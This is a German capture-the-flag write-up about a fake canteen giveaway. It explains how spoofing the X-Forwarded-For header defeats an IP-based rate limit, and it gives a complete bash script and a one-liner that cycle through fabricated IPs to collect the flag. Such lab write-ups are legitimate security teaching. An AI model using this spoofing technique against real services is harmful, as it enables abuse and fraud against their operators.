

# Free Food

> Your university canteen is organizing a giveaway. Maybe you can get your hands on some delicious free food.

Die Kantinen-Webseite zeigt einen Counter, der angibt, wie oft bereits an diesem Gewinnspiel teilgenommen wurde. Die 10.000ste Teilehmerin gewinnt. Teilnehmen kann man beliebig oft, allerdings nur einmal pro Stunde. Der Counter erhöht sich ca. alle 10 Sekunden von selbst um eins.


**Erste Idee:** warten. Das wären - wenn ich mich nicht verrechnet habe - ca 26 Stunden, in denen ich selbst dann auch 26 mal meinen Beitrag dazu leisten könnte, die 10.000 Teilnehmerinnen zu erreichen. Das wird mir allein dadurch erschwert, dass die Challenge automatisch nach drei Stunden stoppt.

Wir wären ja nicht am HackHigh Institute, wenn es hier nicht einen Workaround geben würde.  Also:

**Zweite Idee:** Erstmal gucken, was da überhaupt passiert. Im Quelltext der Seite findet sich ein interessanter Javascript Block. Hier mal ein paar Ausschnitte daraus:

```javascript
setInterval(retrieveState, 3000);
retrieveState();

function retrieveState() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
			updateUI(JSON.parse(this.responseText));
		}
	};
	xhttp.open("GET", "/api/giveaway", true);
	xhttp.send();
}
```

`retrieveState()` wird offenbar alle 3 Sekunden ausgeführt und sendet einen Request an `/api/giveaway`. Wenn der Request ausgeführt ist (`readyState == 4`), wird die Funktion `updateUI()` aufgreufen.


```javascript
var counter = new Counter('.numCounter', {direction:'rtl', delay:200, digits:5});
function updateUI(data) {
	counter.count(data.state);
	$("#participate").prop("disabled", data.rateLimit > 0);
	$("#rateLimitError").css("display", data.rateLimit > 0 ? "block" : "none");
	$("#rateLimitMin").text(Math.ceil(data.rateLimit / (1000 * 60)));
	if (data.coupon) {
		$("#giveaway").css("display", "none");
		$("#victory").css("display", "block");
		$("#coupon").text(data.coupon);
		confetti.start();
	}
}
```

`updateUI()` bekommt als Eingabe die Daten, die `retrieveState()` als Response auf den Request erhalten hat. Der Counter wird aktualisiert und sollte `rateLimit` größer als 0 sein, wird der Teinahme-Button deaktiviert. Wenn in `coupon` etwas stehen sollte, hat man anscheinend gewonnen. Was passiert nun also, wenn ich auf den Teilnahme-Button klicke, solange er noch aktiv ist?

```html
<button id="participate" class="btn bg-secondary" style="font-size: 2em;" onclick="participate()">PARTICIPATE</button>
```

```javascript
function participate() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
			updateUI(JSON.parse(this.responseText));
			$('#toast-success').toast('show');
		}
		else if (this.readyState == 4 && this.status != 200) {
			updateUI(JSON.parse(this.responseText));
			$('#toast-error').toast('show');
		}
	};
	xhttp.open("GET", "/api/giveaway/participate", true);
	xhttp.send();
}
```

Beim Klick auf den Teilnahme-Button wird die Funktion `participate()` aufgreufen. Diese sendet einen Request an `/api/giveaway/participate`. Um ein Gefühl dafür zu kriegen, wie die Response genau aussieht, lässt sich `curl` verwenden.


Und die Kantinen-Homepage hat natürlich auch sofort mit einem rate Limit darauf reagiert.


Weitere Requests bleiben erfolglos und ändern nochts an der Teilnehmerinnen-Zahl (`state`).


An dieser Stelle habe ich lange gegrübelt. Ich habe die Antworten vom Server mit BurpSuite abgefangen und manipuliert. Das sah auf der Homepage im ersten Moment zwar nach Erfolg aus, hat aber weiter nichts gebracht. Natürlich nicht, die Daten werden ja auf Server-Seite gehalten, darauf habe ich so keinen Einfluss. Dann habe ich überlegt, anhand welches Kriteriums das rateLimit überprüft werden könnte. Die zurückgegebenen Daten ließen nur den Schluss auf die IP-Adresse zu.

**Zwei-Einhalbste Idee:** Die IP-Adresse lässt sich unter umständen sehr leicht fälschen. Mit dem Request Header `X-Forwarded-For` kann man dem Server eine beliebige falsche Ursprungs-IP vortäuschen. Der eigentliche Sinn dieses Headers ist es, die Original-IP mitzusenden, wenn der Request beispielsweise über einen Proxy geleitet wird. Mit `curl` kann man einem Request beliebige Header hinzufügen.


Der Server akzeptiert den Header tatsächlich, die Response zeigt nun die gefälschte IP und ein frisch gestartetes rate limit. Das ganze jetzt noch 9000 mal händisch mit unterschiedlichen IPs zu machen ist vermutlich rädernd. Also habe ich ein Skript geschrieben, das genau das macht und am Ende die Flag ausgibt.




Nach ca 15 Minuten ist das Script fertig und die Flag gefunden.


Hier zur Vollständigkeit noch das Script:
```bash
#! /bin/bash

RED='\033[0;31m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
PURPLE='\033[0;35m'
NC='\033[0m' # No Color

IP="$1"
ADDRESS="http://$IP:3000/api/giveaway/participate"

echo ""
echo -e "${CYAN}*****************"
echo "*   FREE FOOD   *"
echo -e "*****************${NC}"
echo ""

if [[ "$1" == "" ]]; then
	echo -e "${RED}[!] usage: $0 <IP>${NC}"
	echo "[+]  e.g.: $0 0.65.12.165"
	echo ""
	exit 1
fi

echo "[+] sending requests to $ADDRESS"
echo "[+] bypassing rate limit ..."
echo "[+] ... this will need some time ..."
echo ""
echo ""
for i in {1..40}; do
	for j in {1..255}; do
		response=`curl -s $ADDRESS -H "X-Forwarded-For: 1.1.$i.$j"`
		
		if [[ $(( j%5 )) -eq 1 ]]; then
			state=`echo $response | cut -d ',' -f 1 | cut -d ':' -f 2`
			echo -e "\e[1A\e[K[+] Counter: ${PURPLE}$state${NC}"
		fi
		
		flag=`echo $response | cut -d ',' -f 3 | cut -d '"' -f 4`
		if [[ "$flag" != "" ]]; then
			echo ""
			echo -e "${GREEN}[*] $flag${NC}"
			echo "[+] voilá: Free Food."
			echo ""
			break 2
		fi
	done
done
exit 0
```

Oder als One-Liner ohne Schnick-Schnack: (`<IP>` durch die eigentliche IP ersetzen)
```bash
for i in {1..40}; do; for j in {1..255}; do; response=`curl -s http://<IP>:3000/api/giveaway/participate -H "X-Forwarded-For: 1.1.$i.$j"`; flag=`echo $response | cut -d ',' -f 3 | cut -d '"' -f 4`; if [[ "$flag" != "" ]]; then; echo "$flag"; break 2; fi; done; done
```


